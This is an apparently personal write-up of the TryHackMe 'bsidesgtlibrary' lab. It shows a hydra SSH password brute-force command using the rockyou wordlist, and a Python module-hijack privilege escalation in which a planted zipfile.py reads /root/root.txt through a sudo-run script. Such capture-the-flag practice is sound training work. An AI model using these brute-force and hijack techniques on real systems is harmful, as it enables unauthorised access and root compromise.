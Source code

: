 #hydra #ssh 

https://tryhackme.com/r/room/bsidesgtlibrary

---
#### Nmap
![[Screenshot_2024-05-14_09-45-07.png]]

The `robots.txt` contains
```
User-agent: rockyou 
Disallow: /
```

I will try to bruteforce `meliodas@10.10.96.8`

```shell
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.96.8 ssh -t 10
```

![[Screenshot_2024-05-14_13-17-28.png]]

![[Screenshot_2024-05-14_16-59-08.png]]

![[Screenshot_2024-05-14_16-59-53.png]]

So I've just had to do a custom `zipfile.py` python file next to `bak.py` to be imported instead of the legit one

Custom `zipfile.py` :
```python
import subprocess

subprocess.run(['cat','/root/root.txt'], stdout=open("file","w"))
```
And I've got the flag with 
```shell
sudo /usr/bin/python3.5 /home/meliodas/bak.py
```
